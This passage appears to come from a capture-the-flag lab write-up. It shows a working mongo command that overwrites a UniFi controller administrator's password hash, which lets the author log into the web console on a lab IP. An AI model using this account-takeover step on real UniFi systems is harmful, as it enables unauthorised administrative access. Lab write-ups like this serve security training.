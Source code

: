 We can't crack this hash, but we can replace it with the hash of our password. We can generate our new password [here](https://dangibbs.uk/tools/mkpasswd/):

![pass](./pass.jpg)

And then replace it:

```sh
unifi@unified:/usr/lib/unifi$ mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$KWvAHDwZcLAASJqt$VtTXaIulIslGxIXK7i66h7oI9qhbRs6Y.KoDT2ZmD0LJTIzY7BN9BeKs2qFygyyZ.dx767Nc7sqFr7nJweGTU1"}})'
<D0LJTIzY7BN9BeKs2qFygyyZ.dx767Nc7sqFr7nJweGTU1"}})'
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

So now we can login to `https://10.129.96.149:8443` with `administrator:pass`:

![admin](./admin.jpg)
